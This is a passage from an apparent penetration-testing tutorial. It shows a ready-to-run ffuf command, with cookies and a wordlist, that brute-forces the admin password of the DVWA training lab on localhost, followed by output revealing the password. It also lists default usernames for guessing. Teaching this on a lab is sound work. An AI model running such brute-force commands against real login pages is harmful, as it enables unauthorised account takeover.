 ```shell
Puppet@
Ansible@
Ec2-user@
Vagrant@
Azureuser@
```
It will print the words with multiple symbols and forms.

## Login pages brute-force

### FFuf

[FFuf](https://github.com/ffuf/ffuf)  is a web fuzzer written in Go that can be used for content discovery, parameter discovery, and Vhost discovery. We'll use it to brute-force login pages.

First we'll try brute-forcing using `GET` method then `POST`.

The vulnerable lab is [DVWA](https://github.com/digininja/DVWA)

#### GET

Here we're trying to brute-force the admin password:

```shell
machiavelli@machiavelli:~# ffuf -u "http://localhost:4280/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login" -c -w /usr/share/wordlists/seclists/Passwords/Common-Credentials/500-worst-passwords.txt -fs 4436 -H "Cookie: css_dark_mode=false; remember_token=defaultuser@changedetection.io|944643701d7eaf4435d6dabf09180720963153a8510359fc4aeee7eeaec680dc962b5017f211f9a49bcba9441023e354878583f2030cb7c112c3e68ed9008e85; security=low; PHPSESSID=7ab43eb74615da20f059669ff5e953d2" -rate 50

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost:4280/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Passwords/Common-Credentials/500-worst-passwords.txt
 :: Header           : Cookie: css_dark_mode=false; remember_token=defaultuser@changedetection.io|944643701d7eaf4435d6dabf09180720963153a8510359fc4aeee7eeaec680dc962b5017f211f9a49bcba9441023e354878583f2030cb7c112c3e68ed9008e85; security=low; PHPSESSID=7ab43eb74615da20f059669ff5e953d2
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 4436
________________________________________________

password                [Status: 200, Size: 4474, Words: 183, Lines: 112, Duration: 3ms]
:: Progress: [499/499] :: Job [1/1] :: 50 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

